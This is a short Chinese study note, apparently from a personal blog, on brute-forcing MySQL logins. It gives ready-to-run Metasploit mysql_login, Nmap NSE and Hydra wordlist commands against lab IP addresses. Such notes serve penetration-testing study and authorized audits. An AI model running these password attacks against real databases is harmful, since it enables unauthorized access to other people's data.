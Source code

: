 ```yaml
---
title: "MYSQL 爆破"
date: 2019-01-02T00:15:57+08:00
tags: [""]
categories: ["工具使用接口", "Kali"]
---
```


> ​	学习地址：
>
> - https://xz.aliyun.com/t/1652


## 使用 metasploit

启动 metasploit：

```shell
$ msfconsole
```

使用 `auxiliary/scanner/mysql/mysql_login` 模块进行：

可以单一扫描验证登录验证：

```shell
use auxiliary/scanner/mysql/mysql_login
set rhosts <ip-address>
set username root
set password 11111111
run
```

使用某个字典进行爆破：

```shell
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip-address>
set pass_file “/root/top10000pwd.txt”
set username root
run
```

## nmap 扫描

可以查看所有与 `mysql` 相关的脚本：

```shell
$ ls -al /usr/share/nmap/scripts/mysql*
```

先查看是否开启了端口

```shell
$ nmap <ip-address>
```

扫描空口令：

```shell
$ nmap -p3306 --script=mysql-empty-password.nse 192.168.137.130
```

扫描已知口令：

```shell
$ nmap -sV --script=mysql-databases --script-args dbuser=root,dbpass=11111111 192.168.195.130
```

## xHydra 和 Hydras

使用字典进行爆破：

```shell
$ hydra -l root -P /root/Desktop/top10000pwd.txt -t 16 192.168.157.130 mysql
```


